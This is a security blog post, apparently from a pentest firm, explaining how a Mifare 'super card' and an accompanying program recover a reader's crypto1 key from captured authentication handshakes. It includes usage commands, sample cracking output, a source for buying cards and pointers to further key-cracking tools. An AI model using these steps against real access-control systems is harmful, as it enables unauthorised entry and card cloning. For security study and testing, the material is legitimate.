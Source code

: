 ```yaml
---
layout: post
title:  "Cracking Mifare with the Super-Card"
date:   2018-05-17 13:49:33 +0000
tags: [RFID, hardware, pentest, redteam, blueteam]
---
```

## Cracking Mifare with the Super-Card
_Alternatively called Proxmark-Card, Sniffer-Card, or Suppa Card_

![](/blog/assets/RFID_reader.jpeg)

The program below is an interface to the Mifare Super (Suppa/Supper) Card utilising the libnfc 1.7.1 library (probably now outdated as this program was written in early 2014).

Why release now…. Many super-card card programs are either broken / wrong type / or written in Chinese. This is a simple English (or American) Language program to facilitate non-Chinese users, and released as Open Source so that the content can be analysed and confirmed to be true to purpose and non-malicious if you do not trust it?

This program has been tested successfully on the USB ACR-122U reader on the following operating systems:
* WinXP (32bit) SP0/1/2/3
* Vista (32bit) SP0/1/2

**Note**: From Windows 7+ Microsoft changed the way smartcard drivers operate, and I havnt figured out how to support the later versions of Windows.

The program has two modes read & write, these operations are detailed below…

The attack is based off the collection of two cryptographic handshakes (based off the Mifare UID) we can then use the crypto1 algorithm to discover one key used to access the particular Mifare sector; other attacks can then be performed to access and clone an entire card.

Code: [https://github.com/netscylla/super-card](https://github.com/netscylla/super-card)

## Where to buy a Super Card?
I sourced mine for a reasonable price from an RFID tech-friend (he used http://www.taobao.com). You can source them from other places but I believe the price can often be jacked up considerably, and delivery is unreliable. So sourcing them can be a challenge!

## Super-card Usage
### Set a UID
Using the ‘-w’ flag set a 4-byte (8 hex chars) UID
```
$ nfc-super.exe -w 22334455
Mifare Super Card v0.1 ©2014 Andy
ISO/IEC 14443A (106 kbps) target:
 ATQA (SENS_RES): 00 04
 UID (NFCID1): 11 22 33 44
 SAK (SEL_RES): 08
```
## Operation
Place the card onto a Mifare reader, and ensure you obtain two or more (2+) failed authentication attempts — normally observed by flashing lights on the reader, or wait 6–10 secs.

## Obtain data and crack key
Place the super-card on your reader (we use an old and reliable USB ACR-122U), launch the program with the ‘-r’ flag, and the program should automatically obtain the necessary values and crack the reader key.
```
$ nfc-super.exe -r
Mifare Super Card v0.1 ©2014 Andy
ISO/IEC 14443A (106 kbps) target:
 ATQA (SENS_RES): 00 04
 UID (NFCID1): 22 33 44 55
 SAK (SEL_RES): 08
 UID: 22 33 44 55
1:NR: c9 6f 2e a5
1:AR: 71 67 3d 4d
2:NR: 38 aa fa ba
2:AR: 5d 32 cd f4
Cracking…
Found Key: [e5b20aeeffff]
```
## Further cracking
Use the Mifare nested attack (or mfoc.exe) to crack any remaining keys on a genuine card.

## Disclaimer
Netscylla or its staff cannot be held responsible for any abuse relating from this blog post. This post is to raise awareness in the design and security flaws of the Mifare access control systems. It is illegal to attempt unauthorised access on any system you do not personally own, or have explicit permission in writing from the owner! If in doubt contact your local authority or local digital lock-sport community for additional advice.
